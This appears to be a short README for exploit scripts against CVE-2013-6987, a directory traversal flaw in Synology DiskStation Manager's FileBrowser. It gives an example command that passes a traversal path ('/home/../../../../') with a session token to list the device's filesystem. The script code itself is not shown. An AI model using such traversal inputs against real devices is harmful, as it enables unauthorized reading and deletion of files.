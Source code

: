 # CVE-2013-6987

Multiple directory traversal vulnerabilities in the FileBrowser components in Synology DiskStation Manager (DSM) before 4.3-3810 Update 3 allow remote attackers to read, write, and delete arbitrary files via a .. (dot dot) 

# Usage:

	python <file.py> <SynoToken> <path>
	
	example:
		#list filesystem
		python file_list.py ABCDFEGH1234 /home/../../../../	
	
